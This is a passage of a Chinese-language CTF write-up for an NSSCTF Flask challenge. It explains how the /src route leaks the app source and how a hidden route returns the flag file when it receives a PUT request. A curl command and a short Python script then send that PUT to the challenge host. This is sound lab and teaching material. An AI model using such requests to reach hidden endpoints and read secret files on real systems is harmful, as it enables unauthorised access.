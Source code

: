- **HTTP 方法**：`GET`

  当用户访问网站根目录 `/` 时，调用 `index()` 函数。

  `flask.send_file('index.html')` 将 `index.html` 文件直接返回给浏览器。

### **3. `/src` 路由**

```
@app.route('/src', methods=['GET'])
def source():
    return flask.send_file('app.py')
```

**路径**：`/src`

**HTTP 方法**：`GET`

当访问 `/src` 时，调用 `source()` 函数。

直接返回 `app.py` 文件内容。

### **4. `/super-secret-route-nobody-will-guess` 路由**

```
@app.route('/super-secret-route-nobody-will-guess', methods=['PUT'])
def flag():
    return open('flag').read()
```

**HTTP 方法**：`PUT`（而不是常见的 GET/POST）

当客户端用 **PUT 方法**访问该路径时，返回 `flag` 文件内容。

于是乎，我们只要以put方式访问路径即可

**linux**

```
curl -X PUT http://example.com/super-secret-route-nobody-will-guess
```

**windows**

```
curl.exe -X PUT http://node5.anna.nssctf.cn:20260/super-secret-route-nobody-will-guess
```

![image-20250806100657645](./NSSCTF-4.assets/image-20250806100657645.png)

**python脚本**

```
import requests

# 目标 URL
url = "http://node5.anna.nssctf.cn:20260/super-secret-route-nobody-will-guess"

# 发送 PUT 请求
response = requests.put(url)

# 输出响应内容
if response.status_code == 200:
    print("Flag 内容：")
    print(response.text)
else:
    print(f"请求失败，状态码: {response.status_code}")
```
